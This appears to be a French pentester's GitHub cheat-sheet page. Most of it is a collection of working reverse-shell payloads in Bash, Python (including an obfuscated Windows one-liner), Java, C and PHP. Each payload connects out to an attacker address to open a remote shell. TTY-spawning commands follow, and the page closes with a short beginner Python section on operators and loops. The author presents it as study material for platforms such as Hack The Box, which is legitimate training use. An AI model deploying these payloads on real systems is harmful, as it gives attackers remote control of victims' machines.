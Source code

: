 # Xender ?
Bienvenue sur mon blog GitHub, ou je publie mes multiple Scripts et programmes liée à la CyberSec, exploitation et explication de nouvelles [CVE](https://cve.mitre.org/) le bolg represente une aide memoire et bien plus. Vous pouvez me contacter et savoir plus sur mes réseaux [Facebook](https://www.facebook.com/Ghiles.MAHLEB/ "Facebook"), [Linkedin](https://www.linkedin.com/in/ghiles-mahleb-600619188/ "Linkedin").

La plupart des pentest vont se faire sur des plateforme comme [HTB](https://app.hackthebox.eu/ "Hack The Box"), [THM](https://tryhackme.com/ "TryHackMe"). vous pouvez me trouver aussi sur [Hack The Box](https://app.hackthebox.eu/profile/240886 "Xender")

## 1 Cheat sheet

Cette partie est pour but de vous aider sans trop de BlaBla 

### 1.1 Reverse Shell

![](https://xnderlan.github.io/Xender/img/king-net_-pentest-using_-kali_-bindshell.png)

#### 1.1.1 Bash

```bash
Target:
bash -i >& /dev/tcp/192.168.1.10/1290 0>&1
Listner:
nc -lnvp 1290
```
#### 1.1.2 Python

Linux only

IPv4
```bash
export RHOST="10.0.0.1";export RPORT=4242;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

IPv4
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

IPv6
```bash
python -c 'import socket,subprocess,os,pty;s=socket.socket(socket.AF_INET6,socket.SOCK_STREAM);s.connect(("dead:beef:2::125c",4242,0,2));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=pty.spawn("/bin/sh");'
```

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Windows only

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

#### 1.1.3 Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/4242;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()

```

### 1.1.4 C

Compile with `gcc /tmp/shell.c --output csh && csh`

```c
#include <stdio.h>
#include <sys/socket.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <netinet/in.h>
#include <arpa/inet.h>

int main(void){
    int port = 4242;
    struct sockaddr_in revsockaddr;

    int sockt = socket(AF_INET, SOCK_STREAM, 0);
    revsockaddr.sin_family = AF_INET;       
    revsockaddr.sin_port = htons(port);
    revsockaddr.sin_addr.s_addr = inet_addr("10.0.0.1");

    connect(sockt, (struct sockaddr *) &revsockaddr, 
    sizeof(revsockaddr));
    dup2(sockt, 0);
    dup2(sockt, 1);
    dup2(sockt, 2);

    char * const argv[] = {"/bin/sh", NULL};
    execve("/bin/sh", argv, NULL);

    return 0;       
}
```

### 1.1.5 PHP

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);shell_exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);`/bin/sh -i <&3 >&3 2>&3`;'
php -r '$sock=fsockopen("10.0.0.1",4242);system("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);passthru("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.0.0.1",4242);popen("/bin/sh -i <&3 >&3 2>&3", "r");'
```

## 1.2 SPAWN TTY 

Spawner la TTY apres avoir eu un accès


![](https://xnderlan.github.io/Xender/img/spawn.jpg)


```powershell
/bin/sh -i
python3 -c 'import pty; pty.spawn("/bin/sh")'
python3 -c "__import__('pty').spawn('/bin/bash')"
python3 -c "__import__('subprocess').call(['/bin/bash'])"
perl -e 'exec "/bin/sh";'
perl: exec "/bin/sh";
perl -e 'print `/bin/bash`'
ruby: exec "/bin/sh"
lua: os.execute('/bin/sh')
```

## 1.3 Python

![](https://xnderlan.github.io/Xender/py.jpg)

### 1.3.1 Operations basique 


Operators | Operation |	Example
--- | --- | ---
`**`	| Exponent	| `2 ** 3 = 8`
`%`	| Modulus/Remainder | `22 % 8 = 6`
`//`	| Integer division | `22 // 8 = 2`
`/`	| Division | `22 / 8 = 2.75`
`*`	| Multiplication | `3 * 3 = 9`
`-`	| Subtraction | `5 - 2 = 3`
`+`	| Addition | `2 + 2 = 4`

Comparison Operators


Operator | Meaning 
--- | ---
`==`	| Equal to 
`!=`	| Not equal to
`<`	| Less than
`>`	| Greater Than
`<=`	| Less than or Equal to
`>=	`| Greater than or Equal to

### 1.3.2 Boucle For

```python
fruits = ["apple", "banana", "cherry"]
for x in fruits:
  print(x)
_________________________________________
apple
banana
cherry
```

```python
for x in "abc":
  print(x)
_________________________________________
a
b
c
```
